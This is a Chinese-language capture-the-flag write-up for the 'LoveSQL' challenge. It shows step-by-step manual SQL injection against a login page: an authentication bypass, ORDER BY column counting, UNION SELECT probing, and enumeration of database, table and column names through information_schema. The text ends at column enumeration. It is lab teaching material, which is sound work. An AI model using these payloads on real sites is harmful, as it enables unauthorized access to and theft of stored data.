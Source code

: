 <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220127162708933.png" alt="image-20220127162708933" style="zoom:50%;" />



## [极客大挑战 2019]LoveSQL

#### <span style="background:#ffbbff;">考点：手注字符注入</span>

输入'回显报错提示==》有字符注入

![image-20220127164535555](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220127164535555.png)

输入万能密码，得到提示admin+密码：f3dd35cabf06e25a413446369583a7b8，尝试登陆无果

![image-20220127164411998](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220127164411998.png)

'后加#就不会报错，注释：

```
输入框的时候用#，在地址栏/hackbar的时候使用%23
```



判断列数：

```
check.php?username=admin&password=1'order by 4%23 //报错
check.php?username=admin&password=1'order by 3%23  //不报错，说明有三列
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220127164914313.png" alt="image-20220127164914313" style="zoom:50%;" />

判断回显位置：

```
check.php?username=admin&password=1'union select 1,2,3%23  //回显在2，3处
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220127164929580.png" alt="image-20220127164929580" style="zoom:50%;" />

爆库名

```
1'union select 1,database(),3%23  //geek
```



爆当前库下表名

```
1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23  //geekuser,l0ve1ysq1
```



爆当前库下所有列名

```
1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database()%23  //id,username,password,id,username,password
```
